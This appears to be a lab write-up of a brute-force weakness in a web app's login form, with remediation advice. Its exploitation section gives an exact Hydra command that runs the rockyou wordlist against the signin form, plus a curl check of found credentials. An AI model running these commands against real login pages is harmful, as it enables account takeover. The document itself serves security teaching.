 Brute-Force Vulnerability — Documentation
How I Found It

Step-by-step discovery process

Initial reconnaissance

● Visited http://192.168.1.16/index.php?page=signin
  and inspected the login form with browser devtools / proxy.

● Noted form parameters: username, password.

● Observed the application returns a consistent
  failure marker: images/WrongAnswer.gif.

● Performed several manual wrong attempts — no CAPTCHA,
  no progressive delay, no account lockout.

Identified the vulnerable behaviour

● Predictable failure response (easy to detect success 
  or failure).

● Login accepts repeated requests without throttling
  suitable for automated brute force.



How I Exploited It

Exact commands and payloads used

Download wordlist

mkdir -p ~/wordlists
cd ~/wordlists
wget https://github.com/danielmiessler/SecLists/raw/master/Passwords/Leaked-Databases/rockyou.txt.tar.gz
tar -xvzf rockyou.txt.tar.gz
# result: ~/wordlists/rockyou.txt

Hydra command (exact)
hydra -l admin -P ~/wordlists/rockyou.txt -F -o hydra.log 192.168.1.16 http-get-form "/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif"

• -l admin → single username admin (use -L for username
  list).
• -P → password list.
• -F → stop on first success.
• http-get-form with F= pointing to failure marker(
  images/WrongAnswer.gif).

Manual verification (curl)
# replace PASSWORD with candidate from hydra.log
curl -i "http://192.168.1.16/index.php?page=signin&username=admin&password=PASSWORD&Login=Login"
• Confirm success by absence of images/WrongAnswer.gif,
  presence of authenticated content or redirect.

Artifacts to include in Resources

• hydra.log (hydra output).
• proof_curl.txt (curl response demonstrating success)
• screenshot_failed.png (show WrongAnswer.gif)
• screenshot_success.png (show authenticated page)



Why It Works

Underlying vulnerability explanation

● Predictable failure fingerprint: The app returns a unique
  string/image on failed login (images/WrongAnswer.gif) so tools can reliably detect failure vs success.

● No rate limiting / account lockout: The application
  accepts unlimited attempts from the same IP (or distributed ones) without blocking.

● Credentials in GET (exposed): Sending credentials in the
  URL increases exposure (logs, proxy history).

● Weak password policy / common passwords: Accounts may use
  easily guessed passwords (rockyou matches).

● No bot mitigation: No CAPTCHA, MFA, or behavioral checks
  to block automated tools.

Technical flow:
Attacker tools -> repeated requests with different passwords
↓
Server responds with same failure marker each time
↓
Tool recognizes missing marker -> reports success




How to Fix It

Security recommendations (short & actionable)

Immediate / short-term

1•Block rapid attempts (rate limit)
  Nginx example (basic):
    limit_req_zone $binary_remote_addr zone=login:10m rate=1r/s;
server {
  location = /index.php {
    if ($arg_page = "signin") {
      limit_req zone=login burst=5 nodelay;
    }
  }
}

2•Use POST for login (do not send credentials in URL).
3•Make error messages generic (do not reveal if username
  exists).
4•Add CAPTCHA / bot challenge after N failed attempts (e.g.,
  after 3).
5•Temporary IP blocking / Fail2Ban for repeated failures.

Medium / long-term

1•Per-account throttling & progressive lockout (example:
  after 5 fails lock for 15 minutes or increase delay).
  Simple pseudocode:
  if ($user->locked_until && now < $user->locked_until) deny();
if (password_verify($pw,$hash)) reset_failed();
else increment_failed(); if (failed >=5) lock(15min);

2•Enforce strong passwords & check against breached lists at
  registration.
3•Multi-Factor Authentication (MFA) for sensitive accounts.

4•Use secure password hashing (Argon2id / bcrypt).

5•Logging & alerting for credential-stuffing patterns
  integrate with SIEM.

6•Use WAF rules to detect/mitigate automated attacks and
  block unusual request rates.

Testing after fixes
• Re-run the hydra command to confirm it fails/gets blocked.

• Verify CAPTCHA or lockout triggers after threshold.

• Confirm credentials are not logged in URLs (POST used).

• Check logs/alerts are generated on brute-force attempts.
